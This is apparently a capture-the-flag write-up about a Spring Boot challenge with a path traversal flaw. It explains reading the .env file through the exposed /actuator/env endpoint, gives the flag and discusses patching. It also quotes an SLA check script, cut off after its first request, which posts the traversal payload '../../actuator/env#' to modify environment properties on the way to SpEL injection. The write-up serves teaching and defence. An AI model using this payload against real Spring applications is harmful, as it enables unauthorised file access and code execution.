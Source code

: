 This makes the page to be vulnerable to path traversal attacks which allow the attacker to retrieve the internal files due to improper input validations.

## 🔍Solution

So, to solve this, we try to retrieve the .env file by using the exposed endpoints /actuator/env.

![img](endpoint.png)

## 🏳️Flag:
>UMCS{spr1ng_b00t_m4st3rr4c3_9cad5b35}

## 🩹Patching

For patching, during the event, we haven’t enough time to patch it. But anyways, here’s how to patch the vulnerabilities that can be exploited by the SLA script for vulnerability check.

We already know that the system is vulnerable to the path traversal attack which comes from improper input validation and misconfigurations in the code. From the SLA script, it will use the vulnerabilities to exploit SpEL (Spring Expression Language) Injection which is an attack involved in injection of Java code to gain code execution. References: https://0xn3va.gitbook.io/cheat-sheets/framework/spring/spel-injection#spel-injection.

So here is the SLA script:

```python
#!/usr/bin/env python3
import sys
import requests

STATUS_UNPATCHED = 0
STATUS_PATCHED = 1
STATUS_DOWN = 2

def run_exploit(host, port):
    base = f"http://{host}:{port}"

    try:
        r1 = requests.post(f"{base}/abilities", json={
            "id": "../../actuator/env#",
            "name": "SHADOW_ENABLE",
            "value": "true"
        }, timeout=5)
```